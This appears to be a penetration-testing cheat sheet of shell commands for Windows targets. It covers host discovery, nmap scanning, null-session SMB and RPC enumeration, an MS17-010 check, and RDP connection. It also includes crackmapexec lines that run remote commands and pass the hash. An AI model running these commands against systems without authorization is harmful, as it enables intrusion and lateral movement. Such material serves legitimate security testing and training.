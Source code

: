 1) Discovery and focused scan
```bash
# Find live hosts (choose one)
fping -a -g 10.10.10.0/24 2>/dev/null
nbtscan -r 10.10.10.0/24
nmap -n -sn -PS445,3389 10.10.10.0/24

# Focused TCP scan for Windows-heavy ports
nmap -n -Pn -sS -sV -O -T4 -p 21,80,135,139,389,445,443,1433,3389,5985,5986,636,88,53 $TARGET
```

2) SMB (139/445) enumeration and common vulns
```bash
# Fast overview and version
nmap -p445 --script "smb-os-discovery,smb2-security-mode" $TARGET

# Shares, users
nmap -p445 --script "smb-enum-shares,smb-enum-users" $TARGET

# MS17-010 check (safe detection)
nmap -p445 --script smb-vuln-ms17-010 $TARGET

# SMB signing status (relay relevance)
nmap -p445 --script smb2-security-mode $TARGET

# Null session share list
smbclient -N -L "//$TARGET/"

# Try anonymous/guest access to a found share
smbclient -N "//$TARGET/SHARENAME"

# Broad enum
smbmap -H $TARGET
enum4linux-ng -A $TARGET -oA enum4-$TARGET

# Null/guest RPC to pull users/groups
rpcclient -U "" $TARGET -c "enumdomusers"
rpcclient -U "" $TARGET -c "enumdomgroups"

# Validate creds, list shares, run a command
crackmapexec smb $TARGET -d $DOMAIN -u $USER -p "$PASS" --shares
crackmapexec smb $TARGET -d $DOMAIN -u $USER -p "$PASS" -x "whoami"
# Pass-the-hash example
crackmapexec smb $TARGET -d $DOMAIN -u $USER -H 'aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99' --shares
```

3) RDP (3389)
```bash
# Basic info
nmap -p3389 --script rdp-enum-encryption,rdp-ntlm-info $TARGET

# Attempt connection (requires valid creds)
xfreerdp /v:$TARGET /u:$DOMAIN\\$USER /p:"$PASS" /dynamic-resolution /cert:ignore +clipboard
# If NLA/TLS issues:
xfreerdp /v:$TARGET /u:$DOMAIN\\$USER /p:"$PASS" /cert:ignore /tls-seclevel:0
```
